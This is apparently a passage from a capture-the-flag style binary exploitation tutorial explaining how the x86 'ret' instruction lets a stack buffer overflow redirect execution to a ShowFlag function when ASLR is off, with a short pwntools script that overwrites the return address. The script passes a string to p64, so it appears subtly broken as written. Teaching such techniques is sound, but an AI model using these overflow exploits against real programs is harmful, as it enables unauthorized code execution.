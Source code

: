 ### The 'ret' instruction

The [ret instruction](http://www.felixcloutier.com/x86/RET.html) expects to take value at the top of the stack (pointed to by the stack pointer), and loads it into the instruction pointer, thus making that value, the next program instruction location. This is a simplified explanation - there is naunce in ["near and far"](http://oopweb.com/Assembly/Documents/ArtOfAssembly/Volume/Chapter_6/CH06-5.html#HEADING5-98) returns

![Using radare2 debugger in visual mode to show the operation of the AskQuestion function](../../images/r2-ask-question.png)

Since (with ASLR off), we can know the runtime memory address of the ShowFlag function, all we need to do is place that memory address at the top of the stack, at the time the program crashes.

The following python script shows how this is achieved.

```python
1. #!/usr/bin/python2
2. import pwn
3. proc = pwn.process('./binary')
4. buf ='A' * (0x70+0x08) #0x70 chars + 8 more to allow for traversing the base pointer
5. buf += pwn.p64('0x555555554796')
6. proc.sendline(buf)
7. proc.interactive()
8. print buf

```
